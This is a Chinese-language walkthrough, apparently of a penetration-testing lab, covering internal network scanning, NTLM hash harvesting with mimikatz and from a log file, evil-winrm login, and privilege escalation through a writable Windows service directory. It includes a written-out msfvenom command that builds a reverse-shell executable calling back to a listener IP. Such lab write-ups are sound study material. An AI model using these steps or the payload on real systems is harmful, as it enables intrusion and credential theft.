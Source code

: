 ## 因為是內網，所以用 frp 架 socket
## nmap scanning
- <img width="1920" height="780" alt="image" src="https://github.com/user-attachments/assets/e20fe6e3-8315-447e-8e27-0ea520f6a1eb" />

## 445 port
- smbclient 無法匿名登入
  - <img width="1285" height="200" alt="image" src="https://github.com/user-attachments/assets/d642f29f-a24f-4626-909b-43738a897743" />

## 5985 port
- 用 mimikatz 在 .121 發現的 NTLM 和 .11 發現的 NTLM ，搭配 .121 發現的 username 都沒有用
- 最後在 .11 C:\users\joe\Documents>fileMonitorBackup.log 發現了很多 user 的 NTLM，其中有 wario 的 NTLM
  - <img width="1606" height="307" alt="image" src="https://github.com/user-attachments/assets/9496fc1a-46b7-4838-b297-79416e0ec258" />
  - <img width="1920" height="267" alt="image" src="https://github.com/user-attachments/assets/8d4f38b8-378e-4ee0-b5a3-682593f8a81d" />
  - <img width="1920" height="211" alt="image" src="https://github.com/user-attachments/assets/c5967efd-ad1a-491d-ad56-a6c5ab7ef66b" />
  - <img width="1920" height="339" alt="image" src="https://github.com/user-attachments/assets/aff9df95-9ced-4d74-b081-a67dbb2d5a63" />
  - <img width="1914" height="314" alt="image" src="https://github.com/user-attachments/assets/36fd4dbb-04a9-4959-9503-e7ad47329faa" />
- 無法直接用 NTLM 登入 wario
  - <img width="1920" height="668" alt="image" src="https://github.com/user-attachments/assets/fef05edb-7ae6-4ef2-a742-f8e5a0533e9e" />
- 成功解 wario 的 NTLM
  - <img width="1920" height="865" alt="image" src="https://github.com/user-attachments/assets/f1d18d64-5d43-41d2-9c66-0db23d5b79ae" />
- 成功用 evil-winrm 登入 wario
  - <img width="1771" height="410" alt="image" src="https://github.com/user-attachments/assets/34bb20b4-755d-4394-80c7-0a1f5c273dca" />
- 取得 local.txt
  - <img width="980" height="62" alt="image" src="https://github.com/user-attachments/assets/baac0342-540e-4807-beff-0bf611473d36" />

## 提權
- winpeas.exe 發現可以利用不安全的 Windows 服務權限，改服務的程式碼來取得reverse shell
  - <img width="1920" height="157" alt="image" src="https://github.com/user-attachments/assets/bdbd563b-c3ff-4af2-a4e9-7ad67344b5bc" />
- 發現顯示 C:\DevelopmentExecutables 目錄有「寫入權限」給所有 Authenticated Users
  - <img width="1920" height="222" alt="image" src="https://github.com/user-attachments/assets/d5659fe3-3ad3-46e1-8d0f-6c7f6a255a90" />
- 上傳 reverse shell 檔名為 auditTracker.exe
  ```
  msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.232 LPORT=4545 -f exe -o auditTracker.exe
  ```
  - <img width="1418" height="156" alt="image" src="https://github.com/user-attachments/assets/a8453e2e-9a0b-46e0-84f2-5351b6b290f6" />
- 先關閉服務，在啟動服務
  - <img width="1295" height="272" alt="image" src="https://github.com/user-attachments/assets/406324d4-fdc9-4cf8-a5d6-a739803d2d6f" />
- 成功提權
  - <img width="1903" height="351" alt="image" src="https://github.com/user-attachments/assets/29698953-1bb7-4030-897e-97bcf65ae54a" />
- 取得 proof.txt
  - <img width="1114" height="105" alt="image" src="https://github.com/user-attachments/assets/e61db124-9374-49b3-9ecf-4f1bdb25dd3f" />

